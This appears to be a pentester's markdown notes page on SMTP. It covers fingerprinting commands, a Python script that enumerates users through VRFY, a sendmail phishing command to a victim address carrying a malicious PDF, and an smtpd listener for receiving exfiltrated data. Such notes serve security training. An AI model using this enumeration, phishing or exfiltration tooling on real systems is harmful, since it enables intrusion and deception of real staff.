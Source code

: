 # SMTP

Simple Mail Transfer Protocol. 

Does exactly what it says on the tin, allows for a nice simple method of sending an email. 

SMTP is what we use to `send` email, however it's not the best for receiving so typically POP3 and IMAP are what we use to `receive` emails. It's not that it can't do it, it's just not particularly good at it so people tend to use one of the other protocols to receive mail.

[What is SMTP](https://whatis.techtarget.com/definition/SMTP-Simple-Mail-Transfer-Protocol)



## Fingerprinting

Basic Banner Grab:

```bash
nc -nv 10.10.10.10 25
```

Connecting to SMTPS:

```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```

Looking up Mail Exchanges for a domain:

```bash
dig +short mx google.com
```

Basic Enumeration:

```bash
nmap -p25 --script smtp-commands 10.10.10.10
```

## Command Enumeration

SMTP services respond to a few different commands that can be used to enumerate users on the box, it really depends on the version and the configuration what it allows for:

- `RCPT TO`
- `VRFY`
- `EXPN`

## User Enumeration Using VRFY

```python
#!/usr/bin/python

import socket 
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

ip = sys.argv[1]

connect = s.connect((ip,25))
banner = s.recv(1024)
print banner

with open("user_list.txt") as payloads:
        for p in payloads:
                s.send("VRFY " + p.rstrip() + '\r\n')
                result = s.recv(1024)
                print result

s.close()
```

## Sending an Email (Phishing)

```bash
sendmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
```

Hopefully someone reads it and our payload gets triggered. 

We can use `msfvenom` to generate things like HTA files and malicious PDFs. 

## Data Exfiltration

If you can send data to an SMTP server, you can create a SMTP server to receive and process the incoming data with python (hint: it's not a standard text-format):

```bash
sudo python -m smtpd -n -c DebuggingServer :25
```

## Further Reading

[Pentesting SMTP](https://book.hacktricks.xyz/pentesting/pentesting-smtp) 

Lots more stuff about spoofing headers and other tricks that will come in handy.

[Exfiltration via SMTP](https://book.hacktricks.xyz/exfiltration#smtp)


